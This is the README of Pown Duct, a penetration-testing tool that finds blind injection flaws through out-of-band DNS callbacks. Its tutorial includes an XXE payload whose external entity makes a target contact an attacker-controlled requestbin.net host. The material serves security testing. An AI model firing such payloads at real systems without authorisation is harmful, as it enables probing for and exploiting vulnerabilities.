 [![Follow on Twitter](https://img.shields.io/twitter/follow/pownjs.svg?logo=twitter)](https://twitter.com/pownjs)
[![NPM](https://img.shields.io/npm/v/@pown/duct.svg)](https://www.npmjs.com/package/@pown/duct)
[![Fury](https://img.shields.io/badge/version-2x%20Fury-red.svg)](https://github.com/pownjs/lobby)

# Pown Duct

Essential tool for finding blind injection attacks.

## Credits

This tool is part of [secapps.com](https://secapps.com) open-source initiative.

```
  ___ ___ ___   _   ___ ___  ___
 / __| __/ __| /_\ | _ \ _ \/ __|
 \__ \ _| (__ / _ \|  _/  _/\__ \
 |___/___\___/_/ \_\_| |_|  |___/
  https://secapps.com
```

> **NB**: This tool is taking advantage of http://requestbin.net service. Future versions will use a dedicated, custom-built infrastructure.

## Quickstart

This tool is meant to be used as part of [Pown.js](https://github.com/pownjs/pown) but it can be invoked separately as an independent tool.

Install Pown first as usual:

```sh
$ npm install -g pown@latest
```

Invoke directly from Pown:

```sh
$ pown duct
```

Otherwise, install this module locally from the root of your project:

```sh
$ npm install @pown/duct --save
```

Once done, invoke pown cli:

```sh
$ ./node_modules/.bin/pown-cli duct
```

You can also use the global pown to invoke the tool locally:

```sh
$ POWN_ROOT=. pown duct
```

## Usage

```
pown duct <command>

Side-channel attack enabler

Commands:
  pown duct dns  DNS ducting

Options:
  --version  Show version number  [boolean]
  --help     Show help  [boolean]
```

### `pown duct dns`

```
pown duct dns

DNS ducting

Options:
  --version  Show version number  [boolean]
  --help     Show help  [boolean]
  --channel  Restore channel  [string]
  --output   Output format  [string] [choices: "string", "hexdump", "json"] [default: "string"]
```

## Tutorial

There are cases when we need to perform an attack such as sql injection, XSS, XXE or SSRF but the target application is not providing any indication that it is vulnerable. One way to be sure if vulnerable is to try to inject a valid attack vector which forces a DNS resolver to ask for an attack controlled domain. If the resolution is successful, the attack will be considered successful.

> **NOTE**: You might be familiar with Burp Collaborator which provides a similar service for customers.

First, we need a disposable dns name to resolve:

```sh
$ pown duct dns
```

Using the provided DNS, compose your payload. For example, the following could trigger trigger DNS resolution if XXE vulnerability is present.

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY bar SYSTEM "http://showmethemoney.f92839570333a5d62743.d.requestbin.net">
]>
<foo>
&bar;
</foo>
```

If the attack was successful, we will get a message in the terminal.
